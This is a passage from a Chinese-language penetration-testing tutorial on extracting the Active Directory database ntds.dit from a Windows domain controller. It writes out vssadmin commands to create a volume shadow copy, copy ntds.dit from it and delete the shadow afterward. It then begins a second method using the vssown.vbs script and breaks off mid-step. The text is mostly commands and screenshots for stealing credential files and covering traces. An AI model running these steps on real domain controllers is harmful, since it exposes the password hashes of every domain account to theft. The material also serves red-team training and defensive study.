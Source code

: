 ![]()

## 利用vssadmin提取ntds.dit

创建C盘的卷影拷贝

    
    
    vssadmin create shadow /for=c:

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115514.png)

卷影副本 ID: {6d2ab801-10ca-4890-8b89-e8051ddf0286}  
卷影副本卷名: \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

在创建的卷影拷贝中将ntds.dit复制出来

    
    
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\\ntds.dit

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115515.png)

此时在C盘目录下发现ntds.dit已经被复制出来

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115516.png)

删除快照

    
    
    vssadmin delete shadows /for=c: /quiet

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115517.png)

## 利用vssown.vbs提取ntds.dit

vssown.vbs
github链接:https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs

首先查找一下ntds.dit的位置

    
    
    reg query HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters

![]()

启动卷影拷贝服务

    
    
    cscript //nologo vssown.vbs /start

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115518.png)

创建一个C盘的卷影拷贝

    
    